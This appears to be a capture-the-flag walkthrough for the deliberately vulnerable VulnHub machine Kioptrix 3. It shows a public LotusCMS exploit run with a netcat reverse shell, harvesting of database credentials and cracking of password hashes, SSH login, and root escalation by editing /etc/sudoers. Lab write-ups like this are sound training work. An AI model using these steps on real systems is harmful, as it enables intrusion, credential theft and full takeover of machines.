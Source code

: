 
Today, we will be pwning the VulnHub machine Kioptrix 3. The final machine in the Kioptrix series. Congrats on getting this far!

  

# Enumeration

  

Once you have obtained the machine's IP address, we will perform a routine nmap scan using the `-sV` and `-sC` flags.

  

![enter image description here](https://github.com/benjibrown/CTF-writeups/blob/main/VulnHub/images/kioptrix3/Screenshot_2022-11-07_13-42-31.png?raw=true)

  

As you can see from the scan, we seem to have a SSH server and an Apache server running version `2.2.8`.

Upon visiting the IP in our browser, we are greeted with some sort of gallery website. After a bit of searching, the "login" tab seems to spark a few ideas.

  

![enter image description here](https://github.com/benjibrown/CTF-writeups/blob/main/VulnHub/images/kioptrix3/Screenshot_2022-11-07_14-12-21.png?raw=true)

  

We could try **SQL injection** but after testing a few payloads such as `'#`, we have no luck. Using **searchsploit**, it is apparent that there is a vulnerability for LotusCMS (which the login page is powered by).

  
![enter image description here](https://github.com/benjibrown/CTF-writeups/blob/main/VulnHub/images/kioptrix3/Screenshot_2022-11-07_14-14-45.png?raw=true)
  

The first payload does seem to be a good choice however for the purpose of this tutorial I'll be using [this exploit](https://github.com/Hood3dRob1n/LotusCMS-Exploit).
  

```bash

git clone https://github.com/Hood3dRob1n/LotusCMS-Exploit

cd LotusCMS-Exploit

./lotusRCE.sh

# answering prompts:

[host-ip]

4444

```

Now, you will need to setup a netcat listener in another terminal.

```bash

nc -lvnp 4444

```

Finally, you can obtain a reverse shell on the machine by entering the letter 1 (on the LotusCMS script).

  

![enter image description here](https://github.com/benjibrown/CTF-writeups/blob/main/VulnHub/images/kioptrix3/Screenshot_2022-11-07_14-41-34.png?raw=true)

  

From the image, we can see that we have successfully gotten a reverse shell! However, we need to pimp it up a little so enter:

```

python -c 'import pty; pty.spawn("/bin/bash")'

```

Now you'll have a much more responsive shell! Now we need to perform some more enumeration. Firstly, I'll checkout the `/etc/passwd` file. Two users seems to catch my eye - loneferret and dreg.

  

![enter image description here](https://github.com/benjibrown/CTF-writeups/blob/main/VulnHub/images/kioptrix3/Screenshot_2022-11-07_14-44-31.png?raw=true)

  

As you can see from the image, we have entered the home directory of loneferret to checkout what they've got hiding! After running `ls`, the company policy file seems to be the most interesting.

It seems to want us to run `sudo ht`, after doing so, we are faced with a massive brickwall....We don't know the password!

After searching through this machine for a while, the subdirectory of `/home` named `www` catches my attention. Inside it, seems to be the files for the Kioptrix website. Upon entering this directory and running `ls`, nothing of proper interest seems to come up.

  

![enter image description here](https://github.com/benjibrown/CTF-writeups/blob/main/VulnHub/images/kioptrix3/Screenshot_2022-11-07_14-54-22.png?raw=true)

  

After searching around a bit more, we come across the file `/home/www/kioptrix3.com/gallery/gconfig.php`. After viewing the contents of the file it is apparent it contains some db credentials! However, there does not seem to be much these credentials could be for. So we'll run gobuster quickly to identify any further entry points.

  

![enter image description here](https://github.com/benjibrown/CTF-writeups/blob/main/VulnHub/images/kioptrix3/Screenshot_2022-11-07_15-01-09.png?raw=true)

  

```

gobuster dir --url http://[machine-ip] --wordlist /usr/share/wordlists/dirb/common.txt

```

> Directory of wordlist for Kali only, if on other OS please install the Dirb common.txt wordlist.

  

Finally something good! Using the login credentials we can login to the phpmyadmin console that gobuster found.

  

![enter image description here](https://github.com/benjibrown/CTF-writeups/blob/main/VulnHub/images/kioptrix3/Screenshot_2022-11-07_15-01-47.png?raw=true)

  

We have successfully gained access to the/a database! After sifting through a bit, I manage to spot some account details located in the gallery database under the `dev_accounts` table. From here, we can crack the hashes for these accounts using https://crackstation.net. First, lets try the hash for the loneferret account. After entering our hash, we are told that the hash evaluates to the password `starwars`! Remeber that SSH server? We'll be using these credentials to log into that now. However, I'm not sure if the following is a bug or not but to be able to properly login to the SSH server we must use some alternate **Host Key Algorithms**, meaning the command used to login to the server is as follows:
```bash
ssh -oHostKeyAlgorithms=+ssh-dss loneferret@[machine-ip]
```

![enter image description here](https://github.com/benjibrown/CTF-writeups/blob/main/VulnHub/images/kioptrix3/Screenshot_2022-11-08_13-38-40.png?raw=true)

As shown in the image, we have successfully logged into the machine as `loneferret`. To check our sudo permissions we may run `sudo -l`. After doing so, we are told we can use `sudo` without a password to run the following `/usr/bin/su`, `/usr/local/bin/ht` and `/bin/bash`. Earlier, we looked at a company policy file with told us to type `sudo ht`, furthermore, looking at the output of the command we just used, we should be able to run `sudo ht` without any issues!

![enter image description here](https://github.com/benjibrown/CTF-writeups/blob/main/VulnHub/images/kioptrix3/Screenshot_2022-11-08_13-45-30.png?raw=true)

> If you face the error show in the image please first run `export TERM=xterm`.

After running `sudo ht`, you should be greeted with some sort of text editor interface.

![enter image description here](https://github.com/benjibrown/CTF-writeups/blob/main/VulnHub/images/kioptrix3/Screenshot_2022-11-08_13-46-16.png?raw=true)

Since we have run `ht` as superuser, we can edit the `sudoers` file to give us root permissions, to do so, enter `ALT-F`, then select the `Open` option, press enter and input the directory `/etc/sudoers`. Now you can add /bin/sh to the loneferret user privilege specification as shown in the image.

![enter image description here](https://github.com/benjibrown/CTF-writeups/blob/main/VulnHub/images/kioptrix3/Screenshot_2022-11-08_13-50-51.png?raw=true)

After this, just hit `ALT-F`, then select the `Save` option, then hit `ALT-F` again and select the option quit. From here you may simply run `sudo /bin/sh` and you will have root!

![enter image description here](https://github.com/benjibrown/CTF-writeups/blob/main/VulnHub/images/kioptrix3/Screenshot_2022-11-08_13-53-25.png?raw=true)

Congrats on pwning Kioptrix 3! ;)
